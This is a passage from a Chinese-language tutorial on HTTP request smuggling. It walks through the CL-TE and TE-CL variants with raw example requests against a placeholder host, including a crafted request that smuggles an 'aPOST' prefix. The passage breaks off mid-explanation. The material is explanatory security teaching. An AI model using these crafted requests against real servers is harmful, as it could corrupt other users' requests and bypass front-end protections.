 连续发送几次请求就可以获得响应。  
**攻击流程**：  
由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为 6，也就是

```bash
0\r\n
\r\n
a
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到

```bash
0\r\n
\r\n
```

认为已经读取到结尾了。  
但剩下的字母`a`就被留在了缓冲区中，等待下一次请求。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求：

```bash
aPOST / HTTP/1.1\r\n
Host: test.com\r\n
......
```

服务器在解析时就会产生报错了，从而造成 HTTP 请求走私。

#### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`请求头，后端服务器处理`Content-Length`请求头。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```bash
0\r\n
\r\n
```

认为是读取完毕了。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，因为请求体的长度为`4`.也就是当它读取完

```bash
12\r\n
```
